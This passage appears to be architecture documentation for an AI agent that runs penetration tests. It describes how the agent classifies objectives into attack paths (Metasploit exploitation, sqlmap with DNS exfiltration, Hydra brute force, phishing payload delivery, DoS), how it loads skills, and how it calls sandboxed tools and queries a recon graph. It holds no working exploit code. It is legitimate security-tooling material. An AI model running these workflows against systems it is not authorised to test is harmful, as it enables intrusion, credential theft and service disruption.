

The classifier emits one of 6 attack paths (or a `<term>-unclassified` fallback). Each path activates a different tool workflow and a different prompt block. The table below maps each path to its phase and to the workflow the agent will execute:

| Attack Path | Phases | Tool Workflow |
|---|---|---|
| **`cve_exploit`** | exploitation, post-exploitation | **Metasploit chain**, `search → use → info → set → exploit`. Payload mode is chosen between **Stateful** (Meterpreter / staged payloads, requires LHOST + LPORT configuration) and **Stateless** (command / exec payloads, no listener required). When `search CVE-*` returns no Metasploit module, a **no-module fallback** workflow is injected that guides the agent to exploit via `execute_curl`, `execute_nuclei`, `execute_code`, or `kali_shell` instead. |
| **`sql_injection`** | exploitation | **7-step sqlmap workflow**, `analyze → sqlmap → WAF bypass → exploit → extract → escalate`. For blind SQLi, **OOB exfiltration** via `interactsh-client` extracts data over DNS to a public oast.fun-style sink. |
| **`brute_force_credential_guess`** | exploitation, post-exploitation | **Hydra against 50+ protocols** (SSH, RDP, FTP, MySQL, MSSQL, HTTP-form, SMB, etc.) with operator-tunable retry policy (threads, wait time, stop-on-first, extra checks `nsr`, max wordlist attempts). Post-exploitation pivots to a **shell session** via discovered credentials using `sshpass` or the relevant client. |
| **`phishing_social_engineering`** | exploitation | **msfvenom → handler → deliver pipeline**, generate the payload, set up the Metasploit handler, deliver via configured SMTP. Gated by `ROE_ALLOW_SOCIAL_ENGINEERING`. |
| **`denial_of_service`** | exploitation | **Availability testing** via `hping3` / `slowhttptest` / Metasploit DoS modules with bounded duration (`DOS_MAX_DURATION`, default 60s) and a `DOS_ASSESSMENT_ONLY` mode that detects vulnerability without actually attacking. Gated by `ROE_ALLOW_DOS`. |
| **`<term>-unclassified`** | informational, exploitation | **Generic tool selection** driven by the technique extracted from the operator's objective (e.g. `ssrf-unclassified`, `xxe-unclassified`). The agent picks tools based on what the technique requires rather than following a predefined workflow. |

### Classification Model

```python
class AttackPathClassification(BaseModel):
    required_phase: Phase           # "informational" or "exploitation"
    attack_path_type: str           # "cve_exploit", "brute_force_credential_guess", or "<term>-unclassified"
    secondary_attack_path: Optional[str]  # Fallback path if primary fails (e.g., brute_force after CVE fails)
    confidence: float               # 0.0-1.0 confidence score
    reasoning: str                  # Explanation for the classification
    detected_service: Optional[str] # e.g., "ssh", "mysql" (for brute force)
```

The classifier runs with retry logic (exponential backoff, max 3 retries) and falls back to `("cve_exploit", "informational")` on failure.

### Dynamic Tool Routing

Tool availability is now **database-driven** via `TOOL_PHASE_MAP` in project settings. The prompt system uses a **Tool Registry** (`prompts/tool_registry.py`) as the single source of truth for all tool metadata. Dynamic prompt builders generate tool tables, argument references, and phase definitions at runtime, only showing tools that are actually allowed in the current phase.

Based on the classified attack path, `get_phase_tools()` assembles different prompt guidance:

| Phase | CVE (MSF) Path | Credential Testing Path |
|-------|-----------------|------------------|
| **Informational** | Dynamic recon tool descriptions (from registry) | Dynamic recon tool descriptions (from registry) |
| **Exploitation** | `CVE_EXPLOIT_TOOLS` + payload guidance + no-module fallback (if MSF search failed) | `HYDRA_BRUTE_FORCE_TOOLS` + wordlist guidance |
| **Post-Exploitation** | `POST_EXPLOITATION_TOOLS_STATEFULL` (unified for Meterpreter and shell sessions) | `POST_EXPLOITATION_TOOLS_STATEFULL` (same unified prompt) |

**No-Module Fallback**: When a `search CVE-*` command returns no results in Metasploit, the system injects a fallback workflow (`NO_MODULE_FALLBACK_STATEFULL` or `NO_MODULE_FALLBACK_STATELESS`) that guides the agent to exploit the CVE using `execute_curl`, `execute_code`, `kali_shell`, or `execute_nuclei` instead. This saves ~1,100-1,350 tokens when a module IS found.

### Pre-Exploitation Validation

Before executing Metasploit commands in **statefull CVE exploit** mode, the system validates session configuration:



This prevents exploitation failures by ensuring reverse/bind payload parameters are available before the agent attempts to run Metasploit exploits. Hydra brute force attacks bypass this check since they use `execute_hydra` (stateless) and establish sessions separately via `sshpass` or database clients.

### Credential Detection

Some attack paths emit additional metadata beyond the type itself:

- `target_host`, `target_port`, `target_cves`, extracted by the classifier so EvoGraph and the recon graph can pre-link the new chain to existing infrastructure nodes.
- `secondary_attack_path`, a fallback strategy the agent should pivot to if the primary path fails (e.g. `cve_exploit` -> `brute_force_credential_guess`).

During Hydra brute force attacks, the think node's inline output analysis automatically extracts discovered credentials:



---

## Skills System (Built-In, User, Chat)

Skills are reusable expert playbooks the agent loads into its prompt. Three families coexist:

| Family | Source | Affects classification? | Affects tool routing? | Lifecycle |
|---|---|---|---|---|
| **Built-in attack skills** | Hard-coded prompt blocks under [agentic/prompts/](../agentic/prompts/) (CVE exploit, brute force, SQL injection, XSS, phishing, DoS, post-exploitation) | Yes, the classifier picks one | Yes, drives `get_phase_tools()` and the exploitation prompt block | Always available; togglable per project via `ATTACK_SKILL_CONFIG.builtIn` |
| **User attack skills** | Markdown files under [agentic/skills/](../agentic/skills/) (categorised: `vulnerabilities/`, `network/`, `cloud/`, `tooling/`, `frameworks/`, `protocols/`, `wireless/`, `social_engineering/`, `mobile/`, `api_security/`, `active_directory/`, `reporting/`, `scan_modes/`, `coordination/`, `technologies/`) | Yes, classified as `user_skill:<id>` | No (uses generic phase tools) | Discovered at startup by [agentic/skill_loader.py](../agentic/skill_loader.py); admin-curated; up to `MAX_SKILLS=5` per session |
| **Chat skills** | Same markdown format under [agentic/community-skills/](../agentic/community-skills/) (e.g. `xss_exploitation.md`, `sqli_exploitation.md`, `ssrf_exploitation.md`, `api_testing.md`) | No | No | On-demand reference docs, injected via `/skill` or guidance queue mid-session |

### Skill File Format

Both user and chat skills are plain Markdown with YAML frontmatter:

```markdown
---
name: SSRF Exploitation
description: SSRF discovery, payload crafting, and chained internal-service abuse
---

# Body content goes here in plain markdown...
```

The loader's `_parse_frontmatter` is intentionally minimal (no full YAML parser), only top-level `key: value` pairs are read. The body is the entire markdown after the closing `---`.

### Skill Discovery and Resolution



### Switching Skills Mid-Session

The frontend exposes a skill picker. When the operator changes the active skill while the agent is running, a `SKILL_INJECT` WebSocket message arrives carrying `{skill_id, skill_name, content}`. The handler:

1. Pushes the formatted content (`[CHAT SKILL: <name>]\n\n<content>`) into the connection's `guidance_queue`.
2. The next `think` iteration drains the queue and prepends the skill body as a `## USER GUIDANCE` block.
3. For attack skills (not just chat skills), `attack_path_type` on parent state is also updated so subsequent fireteam deploys snapshot the new value.

Members of an in-flight fireteam wave keep their deploy-time `attack_path_type` snapshot, skill changes only take effect on the next fan-out.

### Built-In Attack Skill Catalog

| Skill | Prompt Block | Phase | Notes |
|---|---|---|---|
| `cve_exploit` | [cve_exploit_prompts.py](../agentic/prompts/cve_exploit_prompts.py) | exploitation, post_exploitation | Statefull/stateless payload modes; no-module fallback |
| `brute_force_credential_guess` | [brute_force_credential_guess_prompts.py](../agentic/prompts/brute_force_credential_guess_prompts.py) | exploitation | Hydra workflow + wordlist guidance |
| `sql_injection` | [sql_injection_prompts.py](../agentic/prompts/sql_injection_prompts.py) | exploitation | 7-step sqlmap workflow + WAF bypass + OOB DNS exfil |
| `xss` | [xss_prompts.py](../agentic/prompts/xss_prompts.py) | exploitation | Reflected/stored/DOM with dalfox + CSP bypass + blind callbacks |
| `phishing_social_engineering` | [phishing_social_engineering_prompts.py](../agentic/prompts/phishing_social_engineering_prompts.py) | exploitation | msfvenom + handler + delivery; gated by `ROE_ALLOW_SOCIAL_ENGINEERING` |
| `denial_of_service` | [denial_of_service_prompts.py](../agentic/prompts/denial_of_service_prompts.py) | exploitation | hping3 / slowhttptest / MSF DoS modules; gated by `ROE_ALLOW_DOS` |
| `<term>-unclassified` | [unclassified_prompts.py](../agentic/prompts/unclassified_prompts.py) | informational, exploitation | Generic phase guidance |
| post-exploitation (statefull) | [post_exploitation.py](../agentic/prompts/post_exploitation.py) | post_exploitation | Unified Meterpreter / shell session prompt |

Each block is a Python string template with placeholders that `prompts/__init__.py` fills via `get_phase_tools()`.

### Skill Settings

| Setting | Default | Purpose |
|---|---|---|
| `ATTACK_SKILL_CONFIG.builtIn` | all enabled | Per-skill on/off toggle for built-ins |
| `USER_ATTACK_SKILLS` | `[]` | List of user-skill ids (`vulnerabilities/ssrf`, etc.) the project has activated; populated from DB |
| `MAX_SKILLS` | `5` | Hard cap on simultaneous skills injected |
| `XSS_DALFOX_ENABLED` | `true` | Enable dalfox WAF evasion in the XSS skill |
| `XSS_BLIND_CALLBACK_ENABLED` | `false` | Allow interactsh OOB blind XSS callbacks |
| `XSS_CSP_BYPASS_ENABLED` | `true` | Include CSP bypass guidance in the XSS prompt |

---

## Tool Execution & MCP Integration

This chapter explains *how the agent runs commands against the target*, and why that mechanism is more elaborate than a simple "the agent shells out to nmap." Two design choices shape the entire layer. First, **tools live outside the agent container**: the agent itself ships only a thin client that speaks the [Model Context Protocol (MCP)](https://modelcontextprotocol.io/), a JSON-RPC standard for plugging tools into language-model agents. The actual tool implementations (curl, naabu, nuclei, metasploit, nmap, hydra, playwright, etc.) run inside a separate Kali Linux sandbox container as four FastMCP servers. Adding a new tool means writing a new MCP method, not modifying the agent. Second, **tools are gated by phase**: the `TOOL_PHASE_MAP` setting (database-driven, project-level) declares which tools are allowed in `informational`, `exploitation`, and `post_exploitation`, and the `PhaseAwareToolExecutor` enforces this at the executor level, even if the LLM tries to call a tool in the wrong phase, the call is rejected before it reaches the MCP server.

The combination delivers three properties that matter operationally: **isolation** (a misbehaving tool cannot crash the agent or affect other tenants), **substitutability** (a tool can be swapped or upgraded without touching agent code), and **safety** (the agent cannot accidentally escalate by reaching for a tool that does not belong in the current phase). The `tool_registry.py` module is the single source of truth for tool metadata, names, purposes, argument hints, dangerous flags, and the prompt builder generates the available-tools section dynamically from this registry, so the LLM never even sees a tool it isn't allowed to use right now.

The sections below describe phase-based tool access, the MCP execution flow, the retry-with-backoff that handles container startup races, the text-to-Cypher path used by `query_graph` (the read-only Neo4j tool that lets the agent reason over the recon graph), and the persistent-process model that keeps Metasploit's stateful console alive across many separate command invocations.

### Phase-Based Tool Access



### MCP Tool Execution Flow



### MCP Connection Retry Logic

The `MCPToolsManager.get_tools()` method includes retry logic with exponential backoff to handle MCP server startup races:

```
Attempt 1 → fail → wait 10s → Attempt 2 → fail → wait 20s → ... → Attempt 5 → fail → continue without MCP tools
```

This prevents the agent from crash-looping when the Kali sandbox container takes longer to start than the agent.

### Neo4j Query Flow (Text-to-Cypher)



### Metasploit Stateful Execution



---

## Recon Graph & query_graph (Persistent Project Intelligence)

Before the agent ever runs, RedAmon's **deterministic Recon Pipeline** has typically already mapped the target's attack surface and persisted it to Neo4j as a structured graph: domains, subdomains, IPs, ports, services, technologies, certificates, CVEs, endpoints, and the relationships that tie them together. This is the **Recon Graph**, the project's accumulated, queryable intelligence about *what exists* on the target.

The agent does not need to re-discover any of this. Instead, it has a single tool, `query_graph`, that lets it ask the Recon Graph natural-language questions ("what ports are open on 192.168.1.100?", "which subdomains run nginx?", "are there any known CVEs on the discovered services?") and get structured answers back. This is one of the most consequential design decisions in the platform: it cleanly separates **deterministic discovery** (fast, cheap, repeatable, runs offline) from **adaptive exploitation** (expensive LLM reasoning, runs online).

### What the Recon Graph Contains

The Recon Graph is populated by the Recon Pipeline (a separate orchestrator described in the project's recon documentation) and by the Fireteam scan tools (`recon`, `partial-recon`, `gvm`, `github-hunt`, `trufflehog`). Its node types include:

| Node type | What it represents | Key properties |
|---|---|---|
| `Domain` | Root domain in scope | `name`, discovered timestamp |
| `Subdomain` | Discovered subdomain | `name`, parent `Domain` |
| `IP` | IP address | `address`, `is_private`, ASN/geo metadata |
| `Port` | Open port on an IP | `number`, `protocol` (tcp/udp), state |
| `Service` | Service detected on a port | `name` (ssh, http, etc.), `version`, banner |
| `Technology` | Software stack identified | `name` (nginx, wordpress, …), `version`, source (httpx / wappalyzer / nuclei) |
| `Endpoint` | URL discovered via crawl/wordlist | `url`, `method`, status |
| `Certificate` | TLS certificate observed | `subject`, `issuer`, `not_after` |
| `CVE` | Vulnerability associated with a tech/version | `id`, `cvss`, `epss`, `kev` flag |
| `Secret` | Secret leaked in a repo (trufflehog) | type, source, redacted snippet |

Relationships connect these into a navigable graph: `Domain -[:HAS_SUBDOMAIN]-> Subdomain -[:RESOLVES_TO]-> IP -[:HAS_PORT]-> Port -[:RUNS_SERVICE]-> Service -[:USES_TECH]-> Technology -[:AFFECTED_BY]-> CVE`. The graph is **tenant-scoped**, every node carries `user_id` and `project_id`, and every query is automatically filtered (more on that below).

### How the Agent Queries It, `query_graph`

`query_graph` accepts a single argument: a natural-language question. The agent never writes Cypher itself; instead, the `Neo4jToolManager` translates the question to a Cypher query via a dedicated LLM call, executes it, and returns formatted results.



Three details worth understanding:

- **Tenant filter is mandatory and automatic.** The agent's translator LLM is *not* asked to add `WHERE user_id = ... AND project_id = ...` itself. Instead, after the LLM produces a Cypher query, `Neo4jToolManager` rewrites the query to inject the tenant filter against every matched node. Even a deliberately malicious or hallucinated query cannot leak data from another project.
- **Self-healing on syntax errors.** If Neo4j returns a Cypher syntax error (typo, wrong relationship name, etc.), the manager retries with the error message attached as context, and the LLM re-emits a corrected query. The retry budget is `CYPHER_MAX_RETRIES` (default 3). After exhaustion the failure is surfaced to the agent so it can ask a different question.
- **Available in every phase.** Unlike most active tools that are gated by phase (nmap is dangerous, metasploit is exploitation-only), `query_graph` is allowed in `informational`, `exploitation`, AND `post_exploitation`. Reading what's already known is always safe.

### Why Have a Separate Recon Pipeline at All?

A perfectly reasonable alternative would be: "let the agent do its own recon." That works but is a bad fit for production engagements for four reasons:

| Problem with agent-only recon | How the Recon Graph + query_graph solves it |
|---|---|
| **Cost**, running nmap / nuclei / httpx through an LLM-driven loop costs LLM tokens for every tool invocation and every output analysis | The recon pipeline runs without LLM in the loop; only the final intelligence reaches the LLM via `query_graph` |
| **Speed**, sequential agentic recon is slow because every step round-trips through the LLM | Recon scans run as parallel jobs in dedicated containers; results are ready when the agent starts |
| **Repeatability**, an LLM might re-scan the same target differently on different runs | The recon pipeline is deterministic; same target, same tools, same configuration → same graph |
| **Persistence across sessions**, agent-discovered intelligence dies with the session if not explicitly persisted | The Recon Graph lives in the project; every new agent session starts with full prior intelligence already loaded |

The separation is the same idea as **build-time vs. runtime** in software engineering: do the expensive deterministic work ahead of time, cache the result, and let the runtime (the agent) just look it up. The Recon Pipeline is the build step; `query_graph` is the cached lookup.

### How `query_graph` Plays With Other Subsystems

- **EvoGraph bridge edges.** When the agent records a `ChainFinding` in EvoGraph (e.g. "exploit succeeded against this service"), `_resolve_finding_bridges` looks up the relevant `IP`, `Port`, `CVE`, `Endpoint`, or `Technology` nodes in the Recon Graph and creates `FOUND_ON`, `FINDING_RELATES_CVE`, `FINDING_AFFECTS_PORT`, etc. relationships back. The two graphs share the same Neo4j instance, so the bridge is a single MATCH-MERGE, no cross-database coordination needed.
- **Attack-path classification pre-link.** When the classifier extracts `target_host`, `target_port`, `target_cves` from a new objective (see [Attack Path Classification](#attack-path-classification)), it pre-links the new `AttackChain` node to the matching infrastructure nodes in the Recon Graph via `CHAIN_TARGETS` edges, so the very first prompt the agent sees already has the right context.
- **Prior chain context loading.** At session start, `query_prior_chains()` walks the Recon Graph + EvoGraph together to find prior `AttackChain`s targeting the same infrastructure, and surfaces their findings and lessons. The agent learns what the previous session tried before deciding what to try next.
- **Report Summarizer.** The post-engagement report joins Recon Graph data (asset inventory, services, CVEs) with EvoGraph data (what was tried, what worked) to produce the attack-surface narrative and the findings narrative.

### When the Agent Should (and Shouldn't) Use `query_graph`

The agent is prompted to **prefer `query_graph` over re-scanning** whenever the question is "what is known about X?". A few representative patterns:

| Operator question / situation | Right move | Wrong move |
|---|---|---|
| "What CVEs apply to 10.0.0.5?" | `query_graph("List CVEs affecting any service on 10.0.0.5")` | Re-run nuclei against 10.0.0.5 |
| "Are there exposed admin panels?" | `query_graph("Endpoints whose path contains 'admin' or 'login'")` | Re-crawl with katana |
| "Which subdomains run WordPress?" | `query_graph("Subdomains with Technology name = 'wordpress'")` | Re-fingerprint with httpx + wappalyzer |
| "Is port 22 open on the target?" | `query_graph("Ports on 10.0.0.5 where number=22")` | Re-scan with naabu |

When `query_graph` returns *no results*, that is itself useful information: the recon pipeline didn't find it, which usually means it doesn't exist. The agent then has the choice of either trusting that result, or, if there's a reason to doubt it (recon is stale, scope was narrower, target was offline), explicitly running a fresh active scan. The LLM is prompted to make this decision deliberately, not by reflex.

### Settings

| Setting | Default | Purpose |
|---|---|---|
| `CYPHER_MAX_RETRIES` | `3` | How many times the manager retries with error feedback before giving up |
| `NEO4J_URI` / `NEO4J_USER` / `NEO4J_PASSWORD` | env | Neo4j connection (shared with EvoGraph and the Recon Pipeline) |

### Operator-Visible Behaviour

`query_graph` calls render in the chat as a normal `ToolExecutionCard` (no Allow/Deny gate, it's a read-only tool, not in `DANGEROUS_TOOLS`). The card shows the natural-language question the agent asked, then the rendered results table. When `query_graph` is part of a `plan_tools` wave (e.g. "scan ports AND look up known CVEs in parallel"), it appears inside the wave card alongside the active tools.

For the operator, the visible signal that the agent is *using* the project's accumulated intelligence, rather than burning time and cost on rediscovery, is seeing `query_graph` cards early and often in the timeline. A session that opens with three or four `query_graph` cards before any active tool runs is the agent doing exactly what it should: read first, act second.

---

## WebSocket Streaming

